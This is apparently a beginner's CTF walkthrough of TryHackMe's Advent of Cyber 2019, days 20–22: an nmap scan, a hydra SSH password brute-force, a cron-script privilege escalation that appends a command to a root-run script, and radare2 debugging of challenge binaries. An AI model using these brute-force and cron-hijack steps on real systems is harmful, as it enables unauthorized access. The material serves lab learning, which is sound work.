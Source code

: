 # [Advent of Cyber 1 [2019]](https://tryhackme.com/room/25daysofchristmas)

> Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## Day 20: Cronjob Privilege Escalation

scan the machine

```
nmap -sS -sV -p4000-5000 -T4 10.10.168.154
```

![image](https://user-images.githubusercontent.com/90561566/210505078-34612815-db24-430a-b85a-2afca0aa917a.png)

crack sam's password

```
hydra -l sam -P /usr/share/wordlists/rockyou.txt ssh://10.10.168.154 -s 4567 -V -f
```

![image](https://user-images.githubusercontent.com/90561566/210505372-7d923460-9d97-4c3f-89a1-66d24d85689b.png)

```
ssh sam@10.10.168.154 -p 4567
chocolate
```

![image](https://user-images.githubusercontent.com/90561566/210505815-93ffacf7-211f-447f-b610-50d01fde038d.png)

normally, we can check cron jobs with

```
crontab -l
cat /etc/crontab
```

nothing much, we have stuck when enumerating this machine

but i found a scripts folder by root at /home

![image](https://user-images.githubusercontent.com/90561566/210506371-c08ce18f-6c29-4aa0-85d9-b69909df1434.png)

it has a clean_up.sh owned by ubuntu

![image](https://user-images.githubusercontent.com/90561566/210506614-93215787-2e09-402e-8157-e7a43e5aabc6.png)

we know it maybe the file is running on crontabs

```
echo 'chmod +r /home/ubuntu/flag2.txt' >> clean_up.sh
```

wait about 1 min

![image](https://user-images.githubusercontent.com/90561566/210507393-cc083614-c760-4f80-893f-96b9027fe261.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/210507459-c302be2a-4db0-45ad-85d0-187be4e637a9.png)

## Day 21: Reverse Elf-ineering

there are 2 linux execute files

![image](https://user-images.githubusercontent.com/90561566/210509592-2e9d69c4-b4e1-4605-9365-3d6907264525.png)

install r2

```
git clone https://github.com/radare/radare2
cd radare2
sys/install.sh
```

open up the program in radare2 debugging mode

```
r2 -d challenge1
e asm.syntax=intel
```

analy the program

```
aaaa
afl
```

there are a lot of functions

![image](https://user-images.githubusercontent.com/90561566/210511264-f82f7cb5-699b-49fc-8727-e0b7d857b465.png)

look at main function

```
pdf @main
```

![image](https://user-images.githubusercontent.com/90561566/210511437-9f169400-68fe-49ad-ba87-5ac39b1983e8.png)

The first question asks us to find the value of `local_ch` (which is referred to as `var_ch` in Intel syntax)

So set a breakpoint here and we'll have a look at it when we run the program:

```
db 0x00400b51
```

The next question asks us about the value stored in the `eax` register when the `imul` (signed multiplication) instruction is used. 

```
db 0x00400b62
```

Finally we want to know the value stored in `var_4h` before eax is set to 0 (which happens in the third last line of the function)

```
db 0x00400b69
```

To run the program we use `dc`, which will tell us that we've stopped at a breakpoint

Use `pdf @main` and we can see that the current instruction is highlighted

look at some name of these functions

![image](https://user-images.githubusercontent.com/90561566/210512730-6de52aed-af33-4633-af84-4ad5e2c40f5f.png)

view `var_ch` variable

```
px @rbp-0xc
```

![image](https://user-images.githubusercontent.com/90561566/210513579-ce19fd30-a024-43b7-bf1f-4bfd03aa4e4b.png)

Move one line foward with the `ds` command then look at the value again

![image](https://user-images.githubusercontent.com/90561566/210513633-bfbbba44-3a12-41a4-98ea-add44207fce7.png)

Let's continue the execution `dc` and take a look at the next question

```
dc
pdf @main
```

use `ds` to step one line forward then look at the value of eax after `eax` is multiplied by `var_8h`

remember that as `eax` is a register rather than a memory location, we look at it by querying the register values with the `dr` command

![image](https://user-images.githubusercontent.com/90561566/210514667-b10cdf57-8c2b-4a28-a831-4f27e481c903.png)

continuous

```
dc
pdf @main
```

```
px @rbp-0x4
```

![image](https://user-images.githubusercontent.com/90561566/210515211-9e609e25-d06f-4c7c-9095-9e4882e33fb7.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/210515303-c3359fc5-a40c-4369-8699-d00ea7295dfc.png)

## Day 22: If Santa, Then Christmas

they give us 3 files as follow

![image](https://user-images.githubusercontent.com/90561566/210720238-eeaf8cd3-e72d-4ab3-b8ce-169e4562c04b.png)

start with if2

```
r2 -d if2
aaaa
afl
```

search for main function

![image](https://user-images.githubusercontent.com/90561566/210721406-10adb969-1ab2-41b9-9fd4-a2340fbc04bd.png)

```
pdf @main
```

![image](https://user-images.githubusercontent.com/90561566/210721522-243ffa39-b68c-4d26-9c89-3c16baf44145.png)

to see 2 values before the end of function, set breakpoint at the end of the program before it set to 0

```
db 0x00400b71
```

`dc` to that breakpoint and check 2 variable now

```
px @rbp-0x8
px @rbp-0x4
```

![image](https://user-images.githubusercontent.com/90561566/210727600-6951992b-dd65-4f3a-b93a-9ef65b47ef29.png)

## Day 23: LapLANd (SQL Injection)
































